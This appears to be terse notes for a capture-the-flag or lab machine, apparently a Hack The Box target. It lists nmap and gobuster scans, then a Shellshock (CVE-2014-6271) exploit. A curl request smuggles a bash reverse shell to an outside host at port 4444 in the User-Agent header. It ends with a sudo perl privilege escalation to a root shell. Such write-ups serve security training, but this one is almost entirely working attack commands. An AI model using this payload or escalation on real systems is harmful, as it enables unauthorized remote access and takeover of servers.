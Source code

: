 sudo nmap -sV -sC -O -v -Pn $IP

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

sudo gobuster dir -u http://10.129.234.65/ -w /usr/share/wordlists/dirb/common.txt -t 30

cgi-bin 

sudo gobuster dir -u http://10.129.234.65/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .py,.php,.sh 

user.sh

shell shock
https://github.com/opsxcq/exploit-CVE-2014-6271

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.173/4444 0>&1'" \
http://10.129.234.65/cgi-bin/user.sh

nopass perl

sudo perl -e 'exec "/bin/sh";'
